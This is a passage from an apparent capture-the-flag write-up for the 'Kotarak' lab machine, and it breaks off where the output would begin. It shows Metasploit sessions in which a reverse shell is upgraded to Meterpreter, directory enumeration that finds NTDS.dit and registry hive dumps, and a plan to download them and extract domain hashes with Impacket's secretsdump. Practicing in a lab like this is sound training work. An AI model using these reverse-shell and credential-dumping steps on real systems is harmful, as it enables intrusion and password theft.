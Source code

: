 msf exploit(handler) > sessions -i

Active sessions
===============

  Id  Name  Type              Information  Connection
  --  ----  ----              -----------  ----------
  1         shell java/linux               10.10.15.112:4443 -> 10.10.10.55:56176 (10.10.10.55)
```

Lets upgrade it to a meterpreter shell for better use

```
msf exploit(handler) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.15.112:4433 
[*] Sending stage (847604 bytes) to 10.10.10.55
[*] Meterpreter session 2 opened (10.10.15.112:4433 -> 10.10.10.55:33194) at 2017-12-24 03:26:39 +0530
[*] Command stager progress: 100.00% (736/736 bytes)
msf exploit(handler) > sessions -i

Active sessions
===============

  Id  Name  Type                   Information                                             Connection
  --  ----  ----                   -----------                                             ----------
  1         shell java/linux                                                               10.10.15.112:4443 -> 10.10.10.55:56176 (10.10.10.55)
  2         meterpreter x86/linux  uid=1001, gid=1001, euid=1001, egid=1001 @ 10.10.10.55  10.10.15.112:4433 -> 10.10.10.55:33194 (10.10.10.55)

```

After some enumerating we find something

```
meterpreter > pwd
/home/tomcat/to_archive/pentest_data
meterpreter > ls
Listing: /home/tomcat/to_archive/pentest_data
=============================================

Mode              Size      Type  Last modified              Name
----              ----      ----  -------------              ----
100644/rw-r--r--  16793600  fil   2017-07-21 21:46:23 +0530  20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
100644/rw-r--r--  12189696  fil   2017-07-21 21:46:45 +0530  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
```

Lets download both the files into our machine and rename them to something simpler like kotarak.dit and kotarak.bin

There is a nice writeup on how we can extract data from .dit files [here](https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/)


Lets use the all great Impacket !!

Install all the dependencies and it should work. If any errors or the output isnt right, there is also a manual way of doing it on the link above which works perfectly fine.

After running secretsdump.py we get something like this
```